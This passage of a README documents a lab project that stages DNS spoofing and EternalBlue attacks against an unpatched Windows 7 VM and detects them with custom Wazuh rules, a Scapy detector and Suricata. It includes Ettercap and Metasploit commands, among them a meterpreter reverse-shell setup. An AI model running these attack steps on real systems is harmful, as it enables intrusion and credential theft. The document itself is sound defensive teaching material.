`-M arp:remote` performs the ARP MITM positioning (as in Phase 3); `-P dns_spoof` activates the plugin that intercepts DNS queries matching `etter.dns` and answers them before the legitimate server can. Only the targeted domain is redirected — all other DNS resolutions continue working normally, which keeps the attack from being obviously noticeable to the victim.

**5. Screenshots**


*Figure: The fake authentication page served by Apache, visually matching the internal portal.*


*Figure: Ettercap console showing the spoofed DNS response and the victim's submitted credentials intercepted in clear text.*


*Figure: From Windows 7, the browser shows the legitimate-looking domain name with no visible warning, despite the DNS resolution being fully hijacked.*

**6. Verification — custom detection script and rule**

Rather than compare against an IP allow-list, the detector checks for a structural inconsistency: a DNS response claiming to come from the real gateway IP whose Ethernet source MAC does not match that gateway's known MAC.

```python
if src_ip == REAL_GATEWAY_IP and src_mac.lower() != REAL_GATEWAY_MAC.lower():
    # DNS SPOOFING DETECTED
```
*(Full script: [`scripts/dns_spoof_detector.py`](scripts/dns_spoof_detector.py), deployed as a systemd service for persistence)*

```xml
<rule id="100050" level="12">
  <match>DNS SPOOFING DETECTED</match>
  <description>DNS Spoofing Attack Detected - MAC/IP mismatch on gateway DNS response</description>
</rule>
```

**7. Outcome**
A critical (level 12) alert was generated and emailed automatically, including the timestamp, targeted domain, the falsified IP returned, and the MAC/IP inconsistency that triggered detection — all visible in the Wazuh Dashboard as well.

> This detection approach is MAC/IP-consistency-based rather than signature- or allow-list-based, so it also catches a spoofing attempt that returns only a single forged reply (no duplicate-response pattern needed).

---

### Phase 5 — EternalBlue (MS17-010) Exploitation

**1. Objective**
Exploit the SMBv1 remote-code-execution vulnerability CVE-2017-0144 (EternalBlue) against the unpatched Windows 7 target, and detect it at the network-packet level with Suricata, since this attack generates little useful signal in Windows authentication logs alone.

**MITRE ATT&CK:** T1210 (Exploitation of Remote Services)

**2. Environment and prerequisites**
Windows 7 x64 (unpatched, SMBv1 enabled — representative of hosts that missed the March 2017 MS17-010 patch); Metasploit Framework on Kali; Suricata on Ubuntu with the ET Open ruleset.

**3. Implementation**

Vulnerability confirmation across the subnet:
```bash
nmap -p445 --script smb-vuln-ms17-010 192.168.0.0/24
```
Exploitation via Metasploit:
```text
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.0.158
set LHOST <attacker IP>
# payload: windows/x64/meterpreter/reverse_tcp (default)
run
```
Post-exploitation verification inside the resulting Meterpreter session:
```text
getuid       # NT AUTHORITY\SYSTEM
sysinfo      # confirms target hostname, OS, architecture
screenshot   # visual proof of remote access
```

**4. Technical explanation**
EternalBlue exploits a buffer overflow in the SMBv1 `Trans2` request handler (`srv.sys`), allowing unauthenticated, kernel-context remote code execution — no credentials or user interaction required. `getuid` returning `SYSTEM` confirms the highest possible Windows privilege level was reached directly from the network, without any prior access.

**5. Screenshots**


*Figure: `smb-vuln-ms17-010` NSE script confirming 192.168.0.158 as the only vulnerable, exposed host on the subnet.*


*Figure: `exploit/windows/smb/ms17_010_eternalblue` configured with RHOSTS/LHOST and the Meterpreter payload.*


*Figure: `sysinfo`, `getuid`, and `screenshot` output confirming SYSTEM-level remote access to the correct target.*

**6. Verification — Suricata + Wazuh integration**

Suricata was configured in `af-packet` mode on `ens37`, and its `eve.json` output ingested by the Wazuh agent:
```xml
<localfile>
  <log_format>json</log_format>
  <location>/var/log/suricata/eve.json</location>
</localfile>
```
A custom rule escalates any Suricata alert whose signature matches `ETERNALBLUE` to critical severity:
```xml
<rule id="100230" level="12">
  <if_sid>86601</if_sid>
  <field name="alert.signature" type="pcre2">(?i)ETERNALBLUE</field>
  <description>EternalBlue (MS17-010) exploitation attempt: $(src_ip) (attacker) -> $(dest_ip) (victim)</description>
  <mitre><id>T1210</id></mitre>
</rule>
```
The rule was validated with `wazuh-logtest` before deployment, confirming it correctly fired at level 12 with the `eternalblue` and `attack` tags.

**7. Outcome**
`suricata-update` loaded over 52,000 active rules, including signatures that decomposed the attack into its distinct phases (vulnerability probe, target response, heap spray, final exploitation) in the Dashboard's Threat Hunting view. The custom rule 100230 escalated the native, low-priority Suricata alert (rule 86601, level 3) into an explicit, critical, attacker/victim-labeled alert, also delivered by email.

> **Key finding:** because EternalBlue's exploitation completes before a meaningful Windows security event is generated, agent-based log monitoring alone (as used in Phases 2–4) is blind to this attack. Network-level detection (Suricata) was necessary to close this gap.

---

## Screenshots and Visual Evidence

All screenshots below were extracted directly from the original report and are organized under [`docs/images/`](docs/images/). They are referenced inline throughout the [implementation walkthrough](#project-implementation-step-by-step) above; this section lists the full inventory for reference.

| Area | File | Shows |
|---|---|---|
| Infrastructure | `wazuh-agents-status.png` | Both agents active in the Dashboard |
| Infrastructure | `thunderbird-imap-server-settings.png` | Thunderbird IMAP configuration |
| Brute force | `nmap-smb-rdp-scan-results.png` | Open SMB/RDP confirmed |
| Brute force | `hydra-brute-force-success.png` | Valid credential found |
| Brute force | `email-alert-level12-brute-force-critical.png` | Critical brute-force email alert |
| Brute force | `wazuh-discover-smb-auth-logs.png` | Discover module timeline of the incident |
| ARP Poisoning | `arp-cache-before-attack.png` / `arp-cache-poisoned-after-attack.png` | ARP cache before/after |
| ARP Poisoning | `arpspoof-attack-launch.png` | Bidirectional arpspoof processes |
| ARP Poisoning | `wireshark-traffic-interception.png` | Live MITM traffic capture |
| DNS Spoofing | `fake-login-portal-html.png` | Fake portal page |
| DNS Spoofing | `dns-spoof-captured-credentials.png` | Spoofed response + captured login |
| DNS Spoofing | `wazuh-alert-dns-spoofing-detected.png` | Generated Wazuh alert |
| EternalBlue | `nmap-ms17-010-vulnerability-scan.png` | Vulnerability confirmation |
| EternalBlue | `meterpreter-post-exploitation-results.png` | SYSTEM-level access proof |
| EternalBlue | `wazuh-threat-hunting-eternalblue-signatures.png` | Suricata signatures in Dashboard |

*(Additional supporting screenshots for every intermediate step are included in `docs/images/` — see [Supporting Repository Assets](#supporting-repository-assets-deliverable-2) below for the complete list.)*

⚠️ **Before publishing:** two images warrant a quick look — see [Security Considerations](#security-considerations).

---

## Testing, Validation, and Results

| # | Scenario | Attack tool | Detection mechanism | Alert severity | Result |
|---|---|---|---|---|---|
| 1 | Brute force (SMB) | Hydra | Wazuh rules 100100/100101/100102 (Windows Event IDs 4625/4624) | LOW(5) → CRITICAL(12) → HIGH(10) | ✅ Completed — full chain detected, 44 correlated events in Discover |
| 2 | ARP Poisoning / MITM | arpspoof | arpwatch + Wazuh rule 100010 | HIGH(10) | ✅ Completed — 39 alerts generated, traffic interception confirmed in Wireshark |
| 3 | DNS Spoofing | Ettercap `dns_spoof` | Custom Scapy script + Wazuh rule 100050 | CRITICAL(12) | ✅ Completed — alert generated with domain, falsified IP, and MAC/IP mismatch logged |
| 4 | EternalBlue (MS17-010) | Metasploit | Suricata (ET Open) + Wazuh rule 100230 | CRITICAL(12) | ✅ Completed — SYSTEM-level access obtained; multiple Suricata signatures correlated |

**Interpretation:** each scenario validates a different detection *source* — Windows event logs (brute force), passive ARP monitoring (ARP poisoning), a purpose-built packet-inspection script (DNS spoofing), and network IDS signatures (EternalBlue). Together they demonstrate that a single detection method is insufficient: the EternalBlue case specifically showed that host-log-only detection would have missed the attack entirely.

**What these results do *not* show:** no load/performance testing, no false-positive rate measurement, no testing against patched/hardened targets, and no testing of detection evasion techniques. These results confirm each rule fires correctly under the exact conditions tested in this lab — they are not a general-purpose assessment of Wazuh's detection coverage or of real-world attacker evasion resistance.

---

## Lessons Learned

- **Detection logic must match the actual event source, not a generic assumption.** The brute-force rules had to be split by Windows `logonType` (3 = network/SMB, 10 = RDP, 2 = console) to avoid conflating different access vectors under one alert — a distinction that only became obvious once real Event ID 4624 data was inspected.
- **Agent-based (host-log) detection has a real blind spot.** EternalBlue exploits SMB before a meaningful Windows security event fires. This was the direct, concrete motivation for adding Suricata — it wasn't a "nice to have," it closed a gap discovered while working through the scenario.
- **Allow-list detection isn't always the strongest option.** For DNS spoofing, comparing the source MAC of a response claiming to be the gateway against the real gateway MAC proved more robust than a traditional "known-good IP" allow-list, because it also catches a single forged response with no duplicate to compare against.
- **Correlation rules need tuned thresholds.** Setting the brute-force correlation rule (100101) to 5 failures in 30 seconds (rather than firing on the very first failure) was necessary to distinguish an automated attack from an isolated, legitimate typo.
- **Local-only mail relays avoid unnecessary exposure.** Choosing Postfix's "Local only" mode instead of a full internet-facing MTA kept the alerting pipeline fully contained within the lab host, which is the appropriate posture for a service that only needs to notify a local analyst mailbox.
- **Bidirectional ARP poisoning is required for full MITM.** A single `arpspoof` process only poisons one direction of traffic; two coordinated processes were needed for complete interception — a detail easy to miss in theory but obvious once Wireshark showed only half the expected traffic with one process running.

---

## Limitations and Challenges

**Explicitly stated in the source report:**
- The ARP Poisoning scenario was intentionally limited to passive observation (Wireshark capture). Active credential extraction or content injection over that MITM position was not performed in that scenario — it was instead demonstrated separately in the DNS Spoofing scenario.
- EternalBlue detection via host logs alone was found to be unreliable, since the exploit (and its DoublePulsar payload) does not reliably trigger a distinguishing Windows event before/during compromise — this is why Suricata was added as a supplementary network-layer detector.

**Reasonably inferred from the documented design (not explicitly stated as a "limitation" in the report):**
- The Wazuh deployment is single-node (Manager + Indexer + Dashboard on one host) — a lab-appropriate configuration, not a production-scale or high-availability topology.
- All four scenarios were tested against a single, fixed victim configuration (unpatched Windows 7). No testing was performed against a patched host, a different OS, or with any host-based protections (AV/EDR/firewall) enabled, so detection behavior under those conditions is undocumented.
- The custom detection rules (100050, 100230, 100010/100011, 100100–100104) are tailored to this lab's exact conditions (specific gateway IP/MAC, specific event sources) and would need adaptation — not a drop-in copy — for a different network.
- No automated response (blocking, quarantine, SOAR playbook) was implemented; detection stops at the alert/notification stage.

---

## Next Steps and Future Improvements

> The items below are **proposed, unimplemented** future work — not part of the completed project.

| Improvement | Category | Value |
|---|---|---|
| Add automated response (e.g., Wazuh Active Response to block an attacking IP after rule 100101/100230) | Security / Automation | Moves from detection-only to detect-and-contain |
| Deploy Wazuh in a multi-node topology (separate Manager/Indexer/Dashboard) | Scalability | Closer to a production-representative architecture |
| Add a patched Windows target as a control group | Functional | Validates that detection logic doesn't false-positive on legitimate, patched traffic |
| Measure false-positive rate under normal (non-attack) network activity | Security / Validation | Current results only confirm true-positive detection, not noise levels |
| Extend MITRE ATT&CK coverage (e.g., lateral movement, persistence techniques) | Functional | Broadens the scenario set beyond the four initial attack types |
| Centralize all custom rules/scripts/configs into an Infrastructure-as-Code setup (Ansible/Vagrant) for one-command lab rebuild | Automation / Documentation | Makes the lab reproducible without manual VM setup |
| Add DNSSEC validation testing to the DNS Spoofing scenario | Security | Tests whether DNSSEC would have prevented the demonstrated attack |

---

## Repository Structure

```text
wazuh-siem-attack-detection-lab/
├── README.md
├── docs/
│   └── images/              # Screenshots and diagrams extracted from the report (see list above)
├── rules/
│   └── local_rules.xml      # All custom Wazuh rules used (100100-104, 100010-011, 100050, 100230)
├── scripts/
│   └── dns_spoof_detector.py  # Custom Scapy-based DNS spoofing detector
├── configs/
│   ├── ossec_global_alerting.conf  # Relevant ossec.conf excerpt (email alerting + Suricata ingestion)
│   └── etter.dns.sample            # Sample Ettercap DNS redirection entries
└── LICENSE                  # Optional — add if you intend to open-source this repo
```

**Included:** the README, the custom Wazuh rule set, the DNS-spoof detection script, and the documented configuration excerpts — all transcribed directly from the original report's screenshots.

**Optional:** `LICENSE` (not included — add one if you want this publicly reusable; MIT or Apache-2.0 are common choices for portfolio labs).

**Deliberately excluded:**
- The `wordlist.txt` password dictionary used for the Hydra attack (trivially recreatable, and not meaningfully educational to redistribute).
- The PHP credential-capture script and fake portal HTML (phishing infrastructure) — functional but not something to publish as copy-paste-ready, even in a lab-demonstration repo.
- Any VM images, snapshots, or install media.
- Real Wazuh Dashboard admin credentials (the install script generates these per-installation; they are never meant to be reused and were masked in the original report).

---

## Installation and Reproduction

The following steps reproduce the **SIEM infrastructure** portion of this lab (Phase 1). They are drawn directly from the documented commands.

**Prerequisites:**
- VMware Workstation Pro (or equivalent hypervisor supporting host-only networking)
- 3 VMs: Ubuntu 26.04 LTS, Kali Linux (current), Windows 7 x64 (for the EternalBlue scenario specifically — any unpatched SMBv1-enabled Windows host of that era works)
- A host-only virtual network (e.g., `192.168.0.0/24`) connecting all three VMs, plus NAT on each for internet access

**Steps:**
1. On the Ubuntu VM, install Wazuh all-in-one: `curl -sO https://packages.wazuh.com/4.14/wazuh-install.sh && sudo bash ./wazuh-install.sh -a`
2. Note the generated Dashboard URL and admin credentials from the install summary.
3. Deploy the Windows 7 agent and the Kali agent as shown in [Phase 1](#phase-1--siem-infrastructure-deployment).
4. Verify both agents show `active` in **Dashboard → Agents**.
5. Configure Postfix (`apt install postfix libsasl2-modules`, "Local only" mode) and Thunderbird as documented, then merge [`configs/ossec_global_alerting.conf`](configs/ossec_global_alerting.conf) into `/var/ossec/etc/ossec.conf`.
6. Deploy the custom rule set: copy [`rules/local_rules.xml`](rules/local_rules.xml) to `/var/ossec/etc/rules/local_rules.xml` (merge if a local ruleset already exists), then restart the manager: `sudo systemctl restart wazuh-manager`.
7. For the ARP/DNS scenarios, install `arpwatch` and `ettercap` on the relevant hosts and initialize `arpwatch`'s baseline database before any test traffic.
8. For the DNS spoofing detector, deploy [`scripts/dns_spoof_detector.py`](scripts/dns_spoof_detector.py) as a systemd service, **after editing `REAL_GATEWAY_IP`/`REAL_GATEWAY_MAC` to match your own lab's gateway.**
9. For EternalBlue detection, install Suricata in `af-packet` mode on the monitored interface, run `suricata-update`, and point the `eve.json` localfile block (already in the config excerpt) at the Wazuh agent.

**Not fully documented in the source report** (would need to be filled in to reproduce exactly):
- Exact Wazuh Dashboard/Indexer tuning, if any, beyond the default install.
- The precise Nmap/Hydra/Ettercap/Metasploit versions used (only tool names and general invocation were documented).
- Complete Suricata `suricata.yaml` beyond the `af-packet`/`ens37` snippet shown.

---

## Security Considerations

This project involves offensive tooling and credential-handling screenshots. Before publishing this repository publicly, review the following:

- **Flagged for review — Hydra brute-force screenshot** (`hydra-brute-force-success.png`): shows the attacker's local shell prompt, which includes a personal username. Confirm you're comfortable publishing that, or crop/redact it.
- **Flagged for review — DNS spoofing captured-credentials screenshot** (`dns-spoof-captured-credentials.png`): shows intercepted login credentials. These are self-created, lab-only demo credentials (`admin` / `admin123`), not real accounts — but confirm before publishing, since the image format resembles a real credential leak.
- **No real secrets were found** in the Wazuh install summary, Thunderbird configuration, `ossec.conf`, or any Suricata/rule screenshots reviewed — passwords in those views are either masked in the original report or are the same lab-only demo values already disclosed in the narrative text (e.g., `password123`).
- **IP addresses and hostnames** throughout this repo (`192.168.0.0/24`, `192.168.0.133`, `192.168.0.140`, `192.168.0.158`, `USER-PC`, `portal.corp-intranet.com`) are all private, lab-internal, or fictitious values — safe to publish as-is.
- **Institutional context:** the host organization (CHU Hassan II) and supervisor names appear in the original report's title page and acknowledgments. Decide whether to keep that attribution in a public README or generalize it (e.g., "a university hospital IT security department") — this is a personal/professional judgment call, not a technical one.
- **Responsible use:** all attacks were conducted in an isolated, authorized lab network with no production systems involved. If you reproduce this lab, do the same — never run these tools against networks or systems you don't own or have explicit authorization to test.
- **Credential/secret hygiene for reproduction:** if you redeploy `dns_spoof_detector.py` or the Wazuh rules, update the hardcoded lab values (gateway IP/MAC, etc.) to match your own environment — don't reuse this lab's values as if they were generic defaults.

---

## Conclusion

This project delivered a working, isolated SIEM lab in which four realistic network attacks — brute force, ARP poisoning, DNS spoofing, and EternalBlue/MS17-010 — were each executed and then detected end-to-end through purpose-built Wazuh rules, a custom Python/Scapy detector, and a supplementary Suricata network IDS integration, all surfaced through both a dashboard view and an automated email alert pipeline.

The main technical contribution is the detection layer itself: five custom rule groups and one standalone detection script, each tuned to the specific telemetry available for its attack type (Windows event IDs, ARP watch logs, DNS packet inspection, and network IDS signatures respectively) rather than a single generic approach. The EternalBlue scenario in particular demonstrated a concrete, evidence-based reason to combine host-log and network-level detection — a finding that shaped the lab's final architecture.

Future work centers on moving from detection to detect-and-respond (active response), validating detection against false positives and patched targets, and making the lab fully reproducible via infrastructure-as-code.

---

## References and Acknowledgments

References explicitly cited in the original report:

- [Wazuh Documentation — Components](https://documentation.wazuh.com/current/getting-started/components/index.html)
- [MITRE ATT&CK — T1110: Brute Force](https://attack.mitre.org/techniques/T1110/)
- [Nmap Reference Guide](https://nmap.org/book/man.html)
- [THC-Hydra (GitHub)](https://github.com/vanhauser-thc/thc-hydra)
- [RFC 826 — An Ethernet Address Resolution Protocol](https://www.rfc-editor.org/info/rfc826/)
- [dsniff / dnsspoof documentation](https://www.monkey.org/~dugsong/dsniff/)
- [Wireshark tshark man page](https://www.wireshark.org/docs/man-pages/tshark.html)
- [Suricata — official documentation](https://docs.suricata.io/en/latest/what-is-suricata.html)
- [Suricata — GitHub repository](https://github.com/OISF/suricata)
- [Huntress — CVE-2017-0144 (EternalBlue) analysis](https://www.huntress.com/threat-library/vulnerabilities/cve-2017-0144)
- [Metasploit Project](https://www.metasploit.com/)
- [NIST SP 800-115 — Technical Guide to Information Security Testing and Assessment](https://csrc.nist.gov/pubs/sp/800/115/final)
- [VMware Workstation Pro documentation](https://techdocs.broadcom.com/us/en/vmware-cis/desktop-hypervisors/workstation-pro/17-0/using-vmware-workstation-pro.html)
- [Kali Linux — What is Kali Linux?](https://www.kali.org/docs/introduction/what-is-kali-linux/)

**Acknowledgments:** this project was completed as part of an initiation internship supervised within an IT security department, with academic supervision from the author's engineering program. Full names are omitted here by default — see [Security Considerations](#security-considerations) for the attribution decision.
